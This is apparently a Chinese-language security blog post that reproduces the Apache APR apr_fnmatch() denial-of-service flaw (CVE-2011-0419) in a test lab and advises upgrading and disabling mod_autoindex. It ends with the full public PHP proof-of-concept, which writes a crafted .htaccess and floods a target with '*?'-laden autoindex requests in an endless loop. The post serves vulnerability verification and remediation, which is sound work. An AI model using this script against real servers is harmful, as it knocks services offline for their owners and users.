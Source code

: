 ```yaml
---
layout: post
title:  CVE-2011-0419漏洞研究
category: security
tags: [CVE-2011-0419]
keywords: CVE-2011-0419
description: CVE-2011-0419研究
---  
```


## Apache 1.4/2.2.x - APR 'apr_fnmatch()' Denial of Service(CVE-2011-0419)漏洞研究      
工作中扫描发现Apache 1.4/2.2.x - APR 'apr_fnmatch()' Denial of Service(CVE-2011-0419)漏洞，对于该漏洞，我们做出如下验证与研究：  

**1. 漏洞信息**  
![b1](/assets/themes/images/b1.png)  
Apache Portable Runtime (APR)库1.4.3之前版本，Apache HTTP Server2.2.18之前版本的apr_fnmatch.c中存在栈消耗漏洞。该漏洞是由于“fnmatch()”函数的实现没有正确限制它的递归调用，远程攻击者可以借助first参数中的*?序列针对mod_autoindex某块进行攻击，从而导致拒绝服务（CPU和内存消耗）。  
APR(Apache portable Run-time libraries，Apache可移植运行库)的目的如其名称一样，主要为上层的应用程序提供一个可以跨越多操作系统平台使用的底层支持接口库。  
也就是说Apache的APR库中的fnmatch()函数出了问题，可以造成DOS攻击。   
 
**2.漏洞研究与验证：**  
测试环境：Redhat6.5，Apache 2.2.17    
![b2](/assets/themes/images/b2.png)   
根据exploit-db的资料，实现该攻击需要支持autoindex模块，也就是支持列目录，并且该目录中需要有较长文件名的文件。  
首先开启列列目录功能，对httpd.conf文件做如下修改：  
![b3](/assets/themes/images/b3.png)  
其中Indexs就是开启列目录，然后我们创建一个文件，根据POC，这个文件名为“cx..............................(125个点)”，如下图：  
![b4](/assets/themes/images/b4.png)   
在攻击前，我们首先观察一下CPU的占用情况，正常。  
![b5](/assets/themes/images/b5.png)  
网上POC如下：  
![b6](/assets/themes/images/b6.png)  
对一些参数进行具体的修改，如ip、目录等。执行攻击脚本： 
 
    php -f run.php  

过一段时间，再次观察CPU使用情况：    
![b7](/assets/themes/images/b7.png)   
可见，新出现许多httpd进程，并且CPU已到达99.5%，此时服务器明显卡顿，再次访问相关页面，也无法打开：  
![b8](/assets/themes/images/b8.png)  
至此，DOS攻击成功。  


**3.总结：**    

Apache HTTP Server2.2.18之前版本的apr_fnmatch.c中存在栈消耗漏洞，在支持autoindex模块的前提下，可能造成DOS攻击。2.2.18版本是2011年的版本，版本较低，建议升级，同时autoindex模块会造成不必要的信息泄露，也应关闭。poc如下：  
  

    source: http://www.securityfocus.com/bid/47820/info

	Apache APR is prone to a vulnerability that may allow attackers to cause a denial-of-service condition.
	
	Apache APR versions prior to 1.4.4 are vulnerable. 
	
	<?php
	/*
	Apache 2.2.17 mod_autoindex local/remote Denial of Service
	author: Maksymilian Arciemowicz
	
	CVE: CVE-2011-0419
	CWE: CWE-399
	
	REMOTE
	Find some directory with supported mod_autoindex on the server. The directory should contain long filenames.
	
	http://[server]/[directory_with_mod_autoindex]/?P=*?*?*?[to 4k]
	
	LOCAL
	Tested on:
	127# httpd -v && uname -a 
	Server version: Apache/2.2.17 (Unix)
	Server built:   Dec 28 2010 13:21:44
	NetBSD localhost 5.1 NetBSD 5.1 (GENERIC) #0: Sun Nov  7 14:39:56 UTC 2010  builds@b6.netbsd.org:/home/builds/ab/netbsd-5-1-RELEASE/i386/201011061943Z-obj/home/builds/ab/netbsd-5-1-RELEASE/src/sys/arch/i386/compile/GENERIC i386
	
	Result:
	127# ls -la   
	total 8
	drwxrwxrwx  2 root  wheel   512 Feb  8 21:41 .
	drwxr-xr-x  7 www   wheel  1024 Jan 31 08:49 ..
	-rw-r--r--  1 www   wheel  1056 Feb  8 19:39 .htaccess
	-rw-r--r--  1 www   wheel     0 Feb  8 19:39 cx.............................................................................................................................
	-rw-r--r--  1 www   wheel  1240 Feb  8 19:42 run.php
	127# ps -aux -p 617 
	USER PID %CPU %MEM   VSZ  RSS TTY STAT STARTED      TIME COMMAND
	www  617 98.6  0.4 10028 4004 ?   R     7:38PM 121:43.17 /usr/pkg/sbin/httpd -k start 
	
	Time = 121:43 and counting
	
	where http://[$localhost]:[$localport]/[$localuri]
	*/
	$localhost="192.168.160.237";
	$localport=80;
	$localuri="/tf";
	
	
	if(!is_writable(".")) die("!writable");
	
	// Phase 1
	// Create some filename
	touch("cx".str_repeat(".",125));
	
	// Phase 2
	// Create .htaccess with 
	unlink("./.htaccess");
	$htaccess=fopen("./.htaccess", "a");
	fwrite($htaccess,"AddDescription \"CVE-2011-0419\" ".str_repeat('*.',512)."\n");
	fclose($htaccess);
	
	// Phase 3
	// Local connect (bypass firewall restriction)
	while(1){
		$fp = fsockopen($localhost, $localport, $errno, $errstr, 30);
		if (!$fp) echo "$errstr ($errno)<br />\n";
		else {
			$out = "GET ".$localuri."/?P=".str_repeat("*?",1500)."* HTTP/1.1\r\n";
			$out .= "Host: ".$localhost."\r\n";
			$out .= "Connection: Close\r\n\r\n";
			fwrite($fp, $out);
			fclose($fp);
		}
	}
	
	?>



 



